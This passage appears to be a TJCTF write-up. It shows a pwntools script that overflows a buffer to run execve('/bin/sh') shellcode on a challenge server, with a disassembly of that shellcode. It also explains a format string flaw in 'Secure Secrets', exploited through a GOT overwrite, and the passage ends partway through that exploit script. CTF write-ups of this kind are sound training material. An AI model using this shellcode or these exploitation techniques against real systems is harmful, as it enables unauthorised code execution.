 ~~~python
	r = remote('problem1.tjctf.org', 8005)
	print r.recvuntil('Name:')
	r.sendline(shellcode)
	print r.recvuntil('PIN:')
	r.sendline('test')
	print r.recvuntil('q - quit')
	r.sendline('d')
	#gdb.attach(r)
	r.sendline('A'*17+p64(0x6010a0))
    r.interactive()
~~~

Shellcode:

       0:    31 c0                    xor    eax, eax
       2:    48 bb d1 9d 96 91 d0     movabs rbx, 0xff978cd091969dd1
       9:    8c 97 ff  
       c:    48 f7 db                 neg    rbx
       f:    53                       push   rbx
      10:    54                       push   rsp
      11:    5f                       pop    rdi
      12:    99                       cdq
      13:    52                       push   rdx
      14:    57                       push   rdi
      15:    54                       push   rsp
      16:    5e                       pop    rsi
      17:    b0 3b                    mov    al, 0x3b
      19:    0f 05                    syscall

## Secure Secrets

In this problem, we are only given binary, so one of the first steps is to use IDA and try to see how the program works. Two, for us, the most interesting functions are:

![Secure secrets get_message function]({static}/images/2018_8_13_SecureSecrets_getMessage.png){: .img-fluid .centerimage}

![Secure secrets get_secret function]({static}/images/2018_8_13_SecureSecrets_getSecret.png){: .img-fluid .centerimage}


We see that the program has format string vulnerability in `get_message`. Since to get our flag we just need to call `get_secret`, we can simply overwrite GOT entry of `exit` function (called at the end of main). Exploring stack we see that we can access our input at 35th position. Our exploit:

~~~python
#!/usr/bin/env python
from pwn import *

def explore_stack(r):
	p = 'A'*4
	p += '%p'*29
	r.recvuntil('>')
	r.sendline("p")
	r.recvuntil('>')
	r.sendline(p)
	r.recvuntil('>')
	gdb.attach(r)
	r.sendline("p")

def access_stack(r):
	p = 'A'*4
	p += '|%35$p|'
	r.recvuntil('>')
	r.sendline("p")
	r.recvuntil('>')
	r.sendline(p)
~~~